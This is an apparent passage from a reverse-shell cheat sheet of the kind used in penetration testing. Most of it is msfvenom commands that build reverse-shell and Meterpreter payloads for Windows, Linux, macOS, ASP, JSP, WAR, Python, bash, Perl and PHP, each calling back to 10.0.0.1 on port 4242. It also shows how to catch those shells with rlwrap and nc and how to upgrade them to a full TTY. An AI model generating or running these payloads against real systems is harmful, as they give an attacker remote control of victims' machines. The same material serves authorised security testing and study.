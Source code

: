 ### Windows Stageless reverse TCP

```
  msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Linux Staged reverse TCP

```
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Linux Stageless reverse TCP

```
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Other platforms

```
  $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
  $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
  $ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
  $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
  $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
  $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
  $ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
  $ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
  $ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
  $ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Spawn TTY Shell

In order to catch a shell, you need to listen on the desired port.
`rlwrap` will enhance the shell, allowing you to clear the screen with
`[CTRL] + [L]`.

```
  rlwrap nc 10.0.0.1 4242

  rlwrap -r -f . nc 10.0.0.1 4242
  -f . will make rlwrap use the current history file as a completion word list.
  -r Put all words seen on in- and output on the completion list.
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a
partially tty shell.

*Warning* OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the
> same way bash or sh does. [...] stty raw -echo; fg[...] If you try to
> execute this as two separated commands, as soon as the prompt appear
> for you to execute the fg command, your -echo command already lost its
> effect
